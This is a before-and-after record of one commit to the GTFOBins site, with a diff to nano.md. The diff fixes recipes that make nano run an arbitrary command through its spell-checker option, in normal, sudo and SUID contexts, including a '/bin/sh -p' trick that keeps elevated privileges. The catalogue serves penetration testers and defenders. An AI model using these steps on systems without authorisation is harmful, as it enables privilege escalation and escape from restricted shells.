

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide. Shown: the part 261-1152 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix nano execution functions as they require a file to work on

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -7,7 +7,7 @@ functions:
         TF=$(mktemp)
         echo "$COMMAND" > $TF
         chmod +x $TF
-        nano -s $TF
+        nano -s $TF /etc/hosts
         ^T
   sudo-enabled:
     - description: After running this exit the editor to see the command output.
@@ -16,7 +16,7 @@ functions:
         TF=$(mktemp)
         echo "$COMMAND" > $TF
         chmod +x $TF
-        sudo nano -s $TF
+        sudo nano -s $TF /etc/hosts
         ^T
   suid-enabled:
     - description: After running this exit the editor to see the command output.
@@ -25,7 +25,7 @@ functions:
         TF=$(mktemp)
         echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
         chmod +x $TF
-        ./nano -s $TF
+        ./nano -s $TF /etc/hosts
         ^T
   file-read:
     - code: |
```
